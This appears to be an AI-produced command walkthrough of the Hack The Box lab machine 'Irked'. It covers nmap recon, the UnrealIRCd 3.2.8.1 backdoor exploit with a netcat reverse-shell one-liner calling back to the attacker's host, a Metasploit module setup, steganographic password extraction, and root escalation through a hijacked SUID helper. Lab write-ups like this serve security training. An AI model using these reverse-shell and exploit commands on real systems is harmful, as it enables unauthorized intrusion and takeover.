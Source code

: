 Here is the **Markdown-formatted command walkthrough** for **HTB: Irked**, organized by phase and including command context for quick reference:

---

# 💀 HTB: Irked – Command Walkthrough

## 🧾 Box Info
- **IP**: `10.10.10.117`
- **OS**: Debian (Linux)
- **Difficulty**: Easy
- **Initial Access**: IRC backdoor (UnrealIRCd 3.2.8.1)
- **Privilege Escalation**: SUID binary misconfiguration + steganography

---

## 🔍 Recon

### 📦 Full TCP & UDP Scan
```bash
nmap -sT -p- --min-rate 10000 -oA nmap/alltcp 10.10.10.117
nmap -sU -p- --min-rate 10000 -oA nmap/alludp 10.10.10.117
```

### 🔍 Service Detection
```bash
nmap -sC -sV -p 22,80,111,6697,8067,65534 -oA nmap/scripts 10.10.10.117
```

---

## 🌐 Web Enumeration

### 🖼️ Download Site Image
```bash
wget http://10.10.10.117/irked.jpg
```

---

## 💬 IRC Enumeration

### 🧰 HexChat (GUI)
Connect to:
```
irked.htb : 6697, 8067, 65534
```

### 🔍 Check UnrealIRCd Exploit
```bash
searchsploit UnrealIRCd
```

---

## 🐚 Shell as ircd (IRC Backdoor Exploit)

### 🔎 Confirm RCE
```bash
nc 10.10.10.117 6697
# In nc:
AB; ping -c 1 10.10.14.14
```

### 🧬 Reverse Shell via IRC
```bash
nc 10.10.10.117 6697
# In nc:
AB; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.14 443 >/tmp/f
```

```bash
nc -lnvp 443
```

### 🐍 Python Exploit Alternative
```bash
./unreal_3.2.8.1_exploit.py 10.10.10.117 6697 10.10.14.14 443
```

---

## 🧩 PrivEsc: ircd → djmardov

### 📁 Find Hidden File
```bash
cd /home/djmardov/Documents
cat .backup
# Output: UPupDOWNdownLRlrBAbaSSss
```

### 🔓 Extract with steghide
```bash
steghide extract -sf irked.jpg -p UPupDOWNdownLRlrBAbaSSss
cat pass.txt
# Output: Kab6h+m+bbp2J:HG
```

### 🔐 su or SSH to djmardov
```bash
su djmardov
# or
ssh djmardov@10.10.10.117
# Password: Kab6h+m+bbp2J:HG
```

```bash
cat user.txt
```

---

## 🔼 PrivEsc: djmardov → root

### 🔍 Upload & Run LinEnum
```bash
cd /dev/shm
wget http://10.10.14.14/LinEnum.sh
chmod +x LinEnum.sh
./LinEnum.sh -t
```

### 🔍 Suspicious Binary
```bash
ls -l /usr/bin/viewuser
# SUID root binary
```

### 📂 Hijack /tmp/listusers
```bash
echo "id" > /tmp/listusers
chmod +x /tmp/listusers
viewuser
```

```bash
echo "sh" > /tmp/listusers
viewuser
```

```bash
id
cat /root/root.txt
```

---

## 🔬 Beyond Root

### 🔍 Metasploit IRC Backdoor Behavior
```bash
msfconsole
use exploit/unix/irc/unreal_ircd_3281_backdoor
set RHOSTS 10.10.10.117
set RPORT 6697
set LHOST 10.10.14.14
set LPORT 4444
run
```

### 🧵 Process List
```bash
ps aux | grep ircd
```

---

## ❌ Alternate Exploit Paths (Did Not Work)

### 🚫 Exim Local Exploit
```bash
/usr/sbin/exim -bV -v | grep Perl
# No Perl → Not vulnerable
```

### 🚫 CVE-2018-6789 Attempt
```bash
# SSH tunnel to expose port 25
ssh djmardov@10.10.10.117 -L 25:localhost:25

# Run exploit
python exim_exp.py 10.10.14.14 443 127.0.0.1
```

---

Let me know if you’d like this merged with your HTB collection or saved as a Markdown file!